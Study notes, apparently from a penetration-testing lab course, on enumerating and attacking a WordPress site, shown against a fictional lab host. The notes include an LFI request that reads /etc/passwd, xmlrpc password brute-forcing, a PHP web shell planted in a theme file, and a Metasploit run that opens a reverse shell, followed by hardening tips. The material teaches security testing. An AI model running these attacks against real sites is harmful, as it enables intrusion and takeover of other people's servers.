






# Wordpress

## Intro

### Structure

#### Default File Structure

WordPress can be installed on a Windows, Linux, or Mac OSX host.

After installation, all WordPress supporting files and directories will be accessible in the webroot located at ```/var/www/html```.

Below is the directory structure of a default WordPress install, showing the key files and subdirectories necessary for the website to function properly.

```bash
d41y@htb[/htb]$ tree -L 1 /var/www/html
.
├── index.php
├── license.txt
├── readme.html
├── wp-activate.php
├── wp-admin
├── wp-blog-header.php
├── wp-comments-post.php
├── wp-config.php
├── wp-config-sample.php
├── wp-content
├── wp-cron.php
├── wp-includes
├── wp-links-opml.php
├── wp-load.php
├── wp-login.php
├── wp-mail.php
├── wp-settings.php
├── wp-signup.php
├── wp-trackback.php
└── xmlrpc.php
```

#### Key WordPress Files

The root directory of WordPress contains files that are needed to configure WordPress to function correctly.

- index.php
  - is the homepage of WordPress
- license.txt
  - contains useful information such as the version WordPress installed
- wp-activate.php
  - is used for the email activation process when setting up a new WordPress site
- wp-admin
  - folder contains the login page for admin access and the backend dashboard
  - once a user has logged in, they can make changes to the site based on their assigned permissions
  - the login page can be located at one of the following:
    - ```/wp-admin/login.php```
    - ```/wp-admin/wp-login.php```
    - ```/login.php```
    - ```/wp-login.php```

This file can also be renamed to make it more challenging to find the login page.

- xmlrpc.php
  - is a file representing a feature of WordPress that enables data to be transmitted with HTTP acting as the transport mechanism and XML as the encoding mechanism
  - this type of communication has been replaced by the WordPress REST API

##### WordPress Configuration File

- wp-config.php
  - file contains information required by WordPress to connect to the database, such as the database name, database host, username and password, authentication keys and salts, and the database table prefix
  - this configuration file can also be used to activate DEBUG mode, which can be useful in troubleshooting

```php
<?php
/** <SNIP> */
/** The name of the database for WordPress */
define( 'DB_NAME', 'database_name_here' );

/** MySQL database username */
define( 'DB_USER', 'username_here' );

/** MySQL database password */
define( 'DB_PASSWORD', 'password_here' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Authentication Unique Keys and Salts */
/* <SNIP> */
define( 'AUTH_KEY',         'put your unique phrase here' );
define( 'SECURE_AUTH_KEY',  'put your unique phrase here' );
define( 'LOGGED_IN_KEY',    'put your unique phrase here' );
define( 'NONCE_KEY',        'put your unique phrase here' );
define( 'AUTH_SALT',        'put your unique phrase here' );
define( 'SECURE_AUTH_SALT', 'put your unique phrase here' );
define( 'LOGGED_IN_SALT',   'put your unique phrase here' );
define( 'NONCE_SALT',       'put your unique phrase here' );

/** WordPress Database Table prefix */
$table_prefix = 'wp_';

/** For developers: WordPress debugging mode. */
/** <SNIP> */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
	define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

#### Key WordPress Directories

- wp-content
  - folder is the main directory where plugins and themes are stored
  - subdir: uploads/
    - is usually where any files uploaded to the platform are stored

```bash
d41y@htb[/htb]$ tree -L 1 /var/www/html/wp-content
.
├── index.php
├── plugins
└── themes
```

- wp-includes
  - contains everything except for the administrative components and the themes that belong to the website
  - is the directory where core files are stored, such as certs, fonts, JS, and widgets

```bash
d41y@htb[/htb]$ tree -L 1 /var/www/html/wp-includes
.
├── <SNIP>
├── theme.php
├── update.php
├── user.php
├── vars.php
├── version.php
├── widgets
├── widgets.php
├── wlwmanifest.xml
├── wp-db.php
└── wp-diff.php
```

### User Roles

| Role | Description |
| ---- | ----------- |
| Administrator | this user has access to administrative features within the website; this includes adding and deleting users and posts, as well as editing source code |
| Editor | can publish and manage posts, including the posts of other users |
| Author | can publish and manage their own posts |
| Contributor | can write and manage their own posts but cannot publish them |
| Subscriber | normal user who can browse posts and edit their profiles |

## Enumeration

### Version

#### meta generator

Search for the ```meta generator``` tag inside the source code:

```html
...SNIP...
<link rel='https://api.w.org/' href='http://blog.inlanefreight.com/index.php/wp-json/' />
<link rel="EditURI" type="application/rsd+xml" title="RSD" href="http://blog.inlanefreight.com/xmlrpc.php?rsd" />
<link rel="wlwmanifest" type="application/wlwmanifest+xml" href="http://blog.inlanefreight.com/wp-includes/wlwmanifest.xml" /> 
<meta name="generator" content="WordPress 5.3.3" />
...SNIP...
```

... and:

```bash
d41y@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | grep '<meta name="generator"'

<meta name="generator" content="WordPress 5.3.3" />
```

Aside from the version information, the source code may also contain comments that may be useful. Links to CSS and JS can also provide hints about the version number.

#### CSS

```html
...SNIP...
<link rel='stylesheet' id='bootstrap-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/bootstrap.css?ver=5.3.3' type='text/css' media='all' />
<link rel='stylesheet' id='transportex-style-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/style.css?ver=5.3.3' type='text/css' media='all' />
<link rel='stylesheet' id='transportex_color-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/colors/default.css?ver=5.3.3' type='text/css' media='all' />
<link rel='stylesheet' id='smartmenus-css'  href='http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/jquery.smartmenus.bootstrap.css?ver=5.3.3' type='text/css' media='all' />
...SNIP...
```

#### JS

```bash
...SNIP...
<script type='text/javascript' src='http://blog.inlanefreight.com/wp-includes/js/jquery/jquery.js?ver=1.12.4-wp'></script>
<script type='text/javascript' src='http://blog.inlanefreight.com/wp-includes/js/jquery/jquery-migrate.min.js?ver=1.4.1'></script>
<script type='text/javascript' src='http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.3.3'></script>
<script type='text/javascript' src='http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.3.3'></script>
<script type='text/javascript' src='http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.3.3'></script>
...SNIP...
```

In older WordPress versions, another source for uncovering version information is the ```readme.html``` file in WordPress's root directory.

### Plugins and Themes

You can also find information about the installed plugins by reviewing the source code manually by inspecting the page source or filtering for the information using cURL and other command-line utilities.

The response headers may also contain version numbers for specific plugins.

However, not all installed plugins and themes can be discovered passively. In this case, you have to send requests to the server actively to enumerate them. You can do this by sending a GET request that points to a directory or file that may exist on the server. If the directory or file does exist, you will either gain access to the directory or file or will receive a redirect response from the webserver, indicating that the content does exist. However, you do not have direct access to it.

#### Plugins

```bash
d41y@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

http://blog.inlanefreight.com/wp-content/plugins/wp-google-places-review-slider/public/css/wprev-public_combine.css?ver=6.1
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/subscriber.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine-en.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/jquery.validationEngine.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/plugins/wp-google-places-review-slider/public/js/wprev-public-com-min.js?ver=6.1
http://blog.inlanefreight.com/wp-content/plugins/mail-masta/lib/css/mm_frontend.css?ver=5.3.3
```

#### Themes

```bash
d41y@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2

http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/bootstrap.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/style.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/colors/default.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/jquery.smartmenus.bootstrap.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/owl.carousel.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/owl.transitions.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/font-awesome.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/animate.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/magnific-popup.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/css/bootstrap-progressbar.min.css?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/js/navigation.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/js/bootstrap.min.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/js/jquery.smartmenus.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/js/jquery.smartmenus.bootstrap.js?ver=5.3.3
http://blog.inlanefreight.com/wp-content/themes/ben_theme/js/owl.carousel.min.js?ver=5.3.3
background: url("http://blog.inlanefreight.com/wp-content/themes/ben_theme/images/breadcrumb-back.jpg") #50b9ce;
```

#### Active Enumeration

```bash
d41y@htb[/htb]$ curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta

HTTP/1.1 301 Moved Permanently
Date: Wed, 13 May 2020 20:08:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://blog.inlanefreight.com/wp-content/plugins/mail-masta/
Content-Length: 356
Content-Type: text/html; charset=iso-8859-1
```

If the content does not exist, you will receive a ```404 Not Found error```.

```bash
d41y@htb[/htb]$ curl -I -X GET http://blog.inlanefreight.com/wp-content/plugins/someplugin

HTTP/1.1 404 Not Found
Date: Wed, 13 May 2020 20:08:18 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Link: <http://blog.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

### Directory Indexing

Active plugins should not be your only area of focus when assessing a WordPress website. Even if a plugin is deactivated, it may still be accessible, and therefore you can gain access to its associated scripts and functions. Deactivating a vulnerable plugin does not improve the WordPress site's security. It is best practice to either remove or keep up-to-date any unused plugins.



If you browse to the plugins directory, you can see that you still have access to the ```Mail Masta``` plugin.



You can also view the directory listing using cURL and convert the HTML output to a nice readbale format using ```html2text```.

```bash
d41y@htb[/htb]$ curl -s -X GET http://blog.inlanefreight.com/wp-content/plugins/mail-masta/ | html2text

****** Index of /wp-content/plugins/mail-masta ******
[[ICO]]       Name                 Last_modified    Size Description
===========================================================================
[[PARENTDIR]] Parent_Directory                         -  
[[DIR]]       amazon_api/          2020-05-13 18:01    -  
[[DIR]]       inc/                 2020-05-13 18:01    -  
[[DIR]]       lib/                 2020-05-13 18:01    -  
[[   ]]       plugin-interface.php 2020-05-13 18:01  88K  
[[TXT]]       readme.txt           2020-05-13 18:01 2.2K  
===========================================================================
     Apache/2.4.29 (Ubuntu) Server at blog.inlanefreight.com Port 80
```

This type of access is called Directory Indexing. It allows you to navigate to the folder and access files that may contain sensitive information or vulnerable code. It is best practice to disable directory indexing on web servers so a potential attacker cannot gain direct access to any files or folders other than those necessary for the website to function properly.

### User Enumeration

Armed with a list of valid users, you may be able to guess default credentials or perform a brute force password attack. If successful, you may be able to log in to the WordPress backend as an author or even as an administrator. This access can potentially be leveraged to modify the WordPress website or even interact with the underlying web server.

#### Method 1

The first method is reviewing posts to uncover the ID assigned to the user and their corresponding username. If you move the cursor over the post author link titled "by admin", as shown in the image below, a link to the user's account appears in the web browser's lower-left corner.



The admin user is usually assigned the user ID 1. You can confirm this by specifying the user ID for the author parameter in the URL.

```
http://blog.inlanefreight.com/?author=1
```

This can also be done with cURL from the command line. The HTTP response in the below output shows the author that corresponds to the user ID. The URL in the ```Location``` header confirms that this user ID belongs to the admin user.

##### Existing User

```bash
d41y@htb[/htb]$ curl -s -I http://blog.inlanefreight.com/?author=1

HTTP/1.1 301 Moved Permanently
Date: Wed, 13 May 2020 20:47:08 GMT
Server: Apache/2.4.29 (Ubuntu)
X-Redirect-By: WordPress
Location: http://blog.inlanefreight.com/index.php/author/admin/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

##### Non-existing User

```bash
d41y@htb[/htb]$ curl -s -I http://blog.inlanefreight.com/?author=100

HTTP/1.1 404 Not Found
Date: Wed, 13 May 2020 20:47:14 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
Link: <http://blog.inlanefreight.com/index.php/wp-json/>; rel="https://api.w.org/"
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8
```

#### Method 2

... requires interaction with the JSON endpoint, which allows you to obtain a list of users. This was changed in WordPress core after version 4.7.1, and later versions only show whether a user is configured or not. Before this release, all users who had published a post were shown by default.

```bash
d41y@htb[/htb]$ curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq

[
  {
    "id": 1,
    "name": "admin",
    "url": "",
    "description": "",
    "link": "http://blog.inlanefreight.com/index.php/author/admin/",
    <SNIP>
  },
  {
    "id": 2,
    "name": "ch4p",
    "url": "",
    "description": "",
    "link": "http://blog.inlanefreight.com/index.php/author/ch4p/",
    <SNIP>
  },
<SNIP>
```

### Login

Once armed with a list of valid users, you can mount a password brute-forcing attack to attempt to gain access to the WordPress backend. This attack can be performed via the login page or the ```xmlrpc.php``` page.

If your POST request against ```xmlrpc.php``` contains valid credentials, you will receive the following output:

```bash
d41y@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

... if invalid:

```bash
d41y@htb[/htb]$ curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>asdasd</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

### WPScan

... is an automated WordPress scanner and enumeration tool. It determines if the various themes and plugins used by a WordPress site are outdated or vulnerable.

Available commands:

```bash
d41y@htb[/htb]$ wpscan --hh
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.1
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

Usage: wpscan [options]
        --url URL                                 The URL of the blog to scan
                                                  Allowed Protocols: http, https
                                                  Default Protocol if none provided: http
                                                  This option is mandatory unless update or help or hh or version is/are supplied
    -h, --help                                    Display the simple help and exit
        --hh                                      Display the full help and exit
        --version                                 Display the version and exit
        --ignore-main-redirect                    Ignore the main redirect (if any) and scan the target url
    -v, --verbose                                 Verbose mode
        --[no-]banner                             Whether or not to display the banner
                                                  Default: true
        --max-scan-duration SECONDS               Abort the scan if it exceeds the time provided in seconds
    -o, --output FILE                             Output to FILE
    -f, --format FORMAT                           Output results in the format supplied
                                                  Available choices: cli-no-colour, cli-no-color, json, cli
		<SNIP>
```

There are various enumeration options that can be specified, such as vulnerable plugins, all plugins, user enumeration, and more. It is important to understand all of the options available to you and fine-tune the scanner depending on the goal.

WPScan can pull in vulnerability information from external sources to enhance your scans. You can obtain an API token from [here](https://wpscan.com/), which is used by WPScan to scan for vulnerability and exploit POCs and reports. To use the WPVulnDB database, just create an account and copy the API token from the users page. This token can then be supplied to WPScan using the ```--api-token``` parameter.

#### Enumerating a Website

The ```--enumerate``` flag is used to enumerate various components of the WordPress app such as plugins, themes, and users. By default, WPScan enumerates vulnerable plugins, themes, users, media, and backups. However, specific arguments can be supplied to restrict enumeration to specific components. For example, all plugins can be enumerated using the arguments ```--enumerate ap```.

```bash
d41y@htb[/htb]$ wpscan --url http://blog.inlanefreight.com --enumerate --api-token Kffr4fdJzy9qVcTk<SNIP>

[+] URL: http://blog.inlanefreight.com/                                                   

[+] Headers                                                                 
|  - Server: Apache/2.4.38 (Debian)
|  - X-Powered-By: PHP/7.3.15
| Found By: Headers (Passive Detection)

[+] XML-RPC seems to be enabled: http://blog.inlanefreight.com/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
|  - http://codex.wordpress.org/XML-RPC_Pingback_API

[+] The external WP-Cron seems to be enabled: http://blog.inlanefreight.com/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
|  - https://www.iplocation.net/defend-wordpress-from-ddos

[+] WordPress version 5.3.2 identified (Latest, released on 2019-12-18).
| Found By: Rss Generator (Passive Detection)
|  - http://blog.inlanefreight.com/?feed=rss2, <generator>https://wordpress.org/?v=5.3.2</generator>

[+] WordPress theme in use: twentytwenty
| Location: http://blog.inlanefreight.com/wp-content/themes/twentytwenty/
| Readme: http://blog.inlanefreight.com/wp-content/themes/twentytwenty/readme.txt
| [!] The version is out of date, the latest version is 1.2
| Style Name: Twenty Twenty 

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[i] Plugin(s) Identified:
[+] mail-masta
| Location: http://blog.inlanefreight.com/wp-content/plugins/mail-masta/                 
| Latest Version: 1.0 (up to date)
| Found By: Urls In Homepage (Passive Detection)
| [!] 2 vulnerabilities identified:
|
| [!] Title: Mail Masta 1.0 - Unauthenticated Local File Inclusion (LFI)
|      - https://www.exploit-db.com/exploits/40290/ 
| [!] Title: Mail Masta 1.0 - Multiple SQL Injection
|      - https://wpvulndb.com/vulnerabilities/8740                                                     
[+] wp-google-places-review-slider
| [!] 1 vulnerability identified:
| [!] Title: WP Google Review Slider <= 6.1 - Authenticated SQL Injection
|     Reference: https://wpvulndb.com/vulnerabilities/9933          

[i] No themes Found.  
<SNIP>
[i] No Config Backups Found.
<SNIP>
[i] No Medias Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
<SNIP>
[i] User(s) Identified:
[+] admin
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] david
<SNIP>
[+] roger
<SNIP>
```

## Exploitation

### Exploiting a Vulnerable Plugin

#### Leveraging WPScan Results

The report generated by WPScan tells you that the website uses an older version of WordPress and an outdated theme called Twenty Twenty. WPScan identified two vulnerable plugins, Mail Masta 1.0 and Google Review Slider. This version of the Mail Masta plugin is known to be vulnerable to SQLi as well as LFI. The report output also contains URLs to POCs, which provide information on how to exploit these vulnerabilities.

#### LFI using Browser



#### LFI using cURL

```bash
d41y@htb[/htb]$ curl http://blog.inlanefreight.com/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

### Atacking WordPress Users

#### User Bruteforce

WPScan can be used to brute-force usernames and passwords. The scan report returned three users registered on the website: admin, roger, and david. The tool uses two kinds of login brute force attacks, xmlrpc and wp-login. The wp-login method will attempt to brute force the normal WordPress login page, while the xmlrpc method uses the WordPress API to make login through ```/xmlrpc.php```. The xmlrpc method is preferred as it is faster.

```bash
d41y@htb[/htb]$ wpscan --password-attack xmlrpc -t 20 -U admin, david -P passwords.txt --url http://blog.inlanefreight.com

[+] URL: http://blog.inlanefreight.com/                                                  
[+] Started: Thu Apr  9 13:37:36 2020                                                                                                                                               
[+] Performing password attack on Xmlrpc against 3 user/s

[SUCCESS] - admin / sunshine1
Trying david / Spring2016 Time: 00:00:01 <============> (474 / 474) 100.00% Time: 00:00:01

[i] Valid Combinations Found:
 | Username: admin, Password: sunshine1
```

### RCE via Theme Editor

With administrative access to WordPress, you can modify the PHP source code to execute system commands. To perform this attack, log in to WordPress with the administrator credentials, which should redirect you to the admin panel. Click on _Appearance_ on the side panel and select _Theme Editor_. This page will allow you to edit the PHP source code directly. You should select an inactive theme in order to avoid corrupting the main theme.



You can see that the active theme is _Transportex_ so an unused theme such as _Twenty Seventeen_ should be chosen instead.



Choose a theme and click on _Select_. Next, choose a non-critical file such as _404.php_ to modify and add a web shell.

```php
<?php

system($_GET['cmd']);

/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
<SNIP>
```

The above code should allow you to execute commands via the GET parameter _cmd_. In this example, you modified the source code of the _404.php_ page and added a new function called ```system()```. This function will allow you to directly execute operating system commands by sending a GET request and appending the _cmd_ parameter to the end of the URL after a question mark and specifying an operating system commmand.

```bash
d41y@htb[/htb]$ curl -X GET "http://<target>/wp-content/themes/twentyseventeen/404.php?cmd=id"

uid=1000(wp-user) gid=1000(wp-user) groups=1000(wp-user)
<SNIP>
```

### Metasploit

You can use the Metasploit Framework to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

```bash
d41y@htb[/htb]$ msfconsole
```

...

```bash
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

...

```bash
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

...

```bash
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

... setting all options and:

```bash
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```

## Hardening

### Perform Regular Updates

This is a key principle for any app or system and can greatly reduce the risk of a successful attack. Make sure that WordPress core, as well as all installed plugins and themes, are kept up-to-date. Researchers continuously find flaws in third-party WordPress plugins. Some hosting providers will even perform continuous automatic updates of WordPress core. The WordPress admin console will usually prompt you when plugins or themes need to be updated or when WordPress itself requires an upgrade. You can even modify the ```wp-config.php``` file to enable automatic updates by inserting the following lines:

```php
define( 'WP_AUTO_UPDATE_CORE', true );

...

add_filter( 'auto_update_plugin', '__return_true' );

...

add_filter( 'auto_update_theme', '__return_true' );
```

### Plugin and Theme Management

